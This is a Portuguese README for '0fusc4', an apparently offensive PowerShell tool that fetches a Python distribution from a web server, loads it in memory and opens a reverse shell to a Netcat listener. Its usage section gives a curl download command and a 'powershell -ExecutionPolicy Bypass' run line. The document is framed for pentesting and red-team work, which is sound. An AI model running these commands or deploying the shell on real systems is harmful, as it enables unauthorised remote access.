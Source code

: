 # 0fusc4
0fusc4 é uma ferramenta desenvolvida para profissionais de Red Team e pentesters. Ela é um shell reverso, ou seja, permite estabelecer uma conexão remota entre dois sistemas, onde um atua como o servidor e o outro como o cliente. Essa ferramenta é implementada em PowerShell e utiliza um script Python para executar o shell reverso.

A funcionalidade principal do 0fusc4 envolve o estabelecimento de uma conexão com um servidor web onde está hospedado um arquivo ZIP contendo uma distribuição Python. Ao se conectar a esse servidor, o 0fusc4 realiza o download do arquivo ZIP e descompacta-o em um diretório temporário, carregando-o em memória.

Após a extração, o 0fusc4 executa o shell reverso por meio do script Python contido no powershell. Para que a comunicação seja possível, é necessário que um programa como o Netcat esteja ouvindo na máquina receptora para receber o shell reverso.

Durante a execução do shell reverso, o 0fusc4 aguarda comandos enviados pelo sistema receptor. Caso o comando recebido seja "exit", o 0fusc4 encerra a conexão com o servidor remoto e exclui os arquivos temporários baixados, mantendo apenas o script criado.

Dessa forma, o 0fusc4 possibilita a execução de um shell reverso por meio de um script Python, utilizando uma distribuição Python em memória. Essa ferramenta é útil para atividades de teste de penetração e avaliação de segurança, permitindo o acesso remoto a sistemas para realizar ações específicas, conforme necessário.

Use:

# curl -O "http://example.com/0fusc4.ps1"

# powershell.exe -ExecutionPolicy Bypass -File "0fusc4.ps1"

![image](https://github.com/carlosalbertotuma/0fusc4/assets/13341724/eff83c3f-3887-45a1-8536-d567aa26d52d)

